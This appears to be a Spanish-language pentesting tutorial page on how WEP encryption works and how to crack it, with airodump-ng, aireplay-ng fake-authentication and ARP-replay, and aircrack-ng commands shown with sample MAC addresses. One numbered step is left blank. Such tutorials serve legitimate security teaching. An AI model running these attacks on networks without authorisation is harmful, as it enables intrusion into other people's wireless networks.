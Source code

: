 # WEP

## Cómo funciona

Wired Equivalent Privacy (WEP) es un protocolo hoy en día obsoleto para conectar de manera inalámbrica dispositivos en una red lan. Funciona de la siguiente manera:

1. Un cliente quiere enviar un paquete de manera segura en la red, por lo que en conjunto con la **clave de la red** inalámbrica y un vector de inicialización **IV,** encriptará el contenido del mensaje.
2. El mensaje es enviado a través de la red junto con el IV en **texto plano**.
3. El receptor como ya tiene la contraseña, y ahora recibió el IV, podrá desencriptar los mensajes que le lleguen.

<figure><img src="../../.gitbook/assets/image (112).png" alt=""><figcaption></figcaption></figure>

## Explotación

La forma de crackear WEP consta de dos pasos:

1. Capturar muchos paquetes con sus respectivos IV's.
2. Ya que solo al tener una longitud de 24bits los IV's se repetirán en algún momento, esto nos permitira crackear la contraseña.



### Método 1: Red con mucho tráfico

Este método se basa en la captura pasiva de paquetes para extraer su IV's, por lo que es clave que la red se esté utilizando, de lo contrario no se podrán conseguir los IV's necesarios para obtener la contraseña.

**Captura de los IV's:**

```
airodump-ng --bssid <bssid> --channel <n> --write <outfile> wlxd0374534e4d2
airodump-ng --bssid 5C:E2:8C:55:88:B8 --channel 6 --write wep_network wlxd0374534e4d2
```

**Crackeo de la contraseña:**

```
aircrack-ng <captura>.cap
```



### Método 2: ARP Replay

Este ataque viene a solucionar el problema del ataque anterior, si no tráfico en la red, no se generarán los suficientes IV's para crackearlos. Por lo que entra en juego el protocolo ARP para llevar a cabo este ataque, en el que se intercepta un paquete ARP legítimo de la red, solo que se modifica la dirección MAC de destino.

Pasos a seguir:

1. Se envía un paquete ARP al router víctima
2. El router lo captura y retransmite
3.
4. Estos paquetes están encriptados, por lo que son generados nuevos IV's
5. Con los IV's suficientes se puede obtener la contraseña

**Captura de los IV's:**

```bash
airodump-ng --bssid <bssid> --channel <n> --write <outfile> wlxd0374534e4d2
airodump-ng --bssid 5C:E2:8C:55:88:B8 --channel 6 --write wep_network wlxd0374534e4d2
```

**Asociar un cliente a la red:**

```bash
aireplay-ng --fakeauth 0 -a <bssid> -h <mac-monitor> <name-iface>
aireplay-ng --fakeauth 0 -a 5C:E2:8C:55:88:B8 -h 16:B4:A3:E9:C1:A1 wlxd0374534e4d2
```

**Generar paquetes ARP:**

```bash
aireplay-ng --arpreplay -b <bssid> -h <mac-monitor> <name-iface>
aireplay-ng --arpreplay -b 5C:E2:8C:55:88:B8 -h 16:B4:A3:E9:C1:A1 wlxd0374534e4d2
```

**Crackear IV's:**

```bash
aircrack-ng <captura>.cap
```


